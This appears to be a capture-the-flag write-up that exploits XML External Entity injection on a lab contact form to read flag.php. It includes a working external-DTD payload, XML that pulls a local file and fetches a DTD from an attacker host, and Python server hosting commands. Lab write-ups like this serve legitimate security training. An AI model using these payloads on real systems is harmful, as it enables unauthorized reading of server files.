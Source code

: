 # 🧨 XXE Exfiltration via External DTD (Advanced CDATA Injection)
## 📌 Target
**URL**: `http://10.129.64.249/submitDetails.php`
**Vulnerability**: XML External Entity Injection (XXE) using external DTD and parameter entities
**Goal**: Exfiltrate the contents of `flag.php`

## 🧠 Vulnerability Summary
While interacting with the contact form on the target web application, XML data was found to be sent via a POST request using the Content-Type: text/plain. The application reflected certain elements of the request, indicating potential for XML External Entity (XXE) injection.

The server was also found to parse XML input without restrictions on external entities. However, the usual entity concatenation techniques failed due to the prohibition on mixing internal and external entities. To bypass this, parameter entities (%) and an external DTD were used to wrap file contents in a CDATA block.

## 🧪 Exploit Strategy
The attack used a two-part payload:

Remote DTD hosted on attacker machine to define a joined parameter entity:
```bash
<!-- xxe.dtd -->
<!ENTITY % all "<!ENTITY &#x25; joined '%begin;%file;%end;'>">
%all;
```
Malicious XML that references the external DTD and displays &joined; where the file content is injected:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY % begin "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///flag.php">
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://<attacker-ip>:8000/xxe.dtd">
    %dtd;
    %joined;
]>
<root>
    <name>Manoj</name>
    <tel>0411639525</tel>
    <email>&joined;</email>
    <message>thank you</message>
</root>
```
## 🖥️ Hosting the Payload
Host the `xxe.dtd` file using a Python HTTP server:
```bash
echo '<!ENTITY % all "<!ENTITY &#x25; joined \'%begin;%file;%end;\'>">' > xxe.dtd
python3 -m http.server 8000
```
Ensure the target machine can reach your IP (<attacker-ip>), which must be replaced in the SYSTEM reference.

## ✅ Successful Exploitation
Upon sending the crafted XML payload, the response returned:
```bash
Check your email 
<?php $flag = "HTB{example_flag_contents}"; ?> 
for further instructions.
```
![image](https://github.com/user-attachments/assets/973424ea-57b2-42ea-896d-72d3b62c4e85)

This confirmed that the contents of `flag.php` were successfully read and displayed using CDATA-wrapped XXE injection via an external DTD.

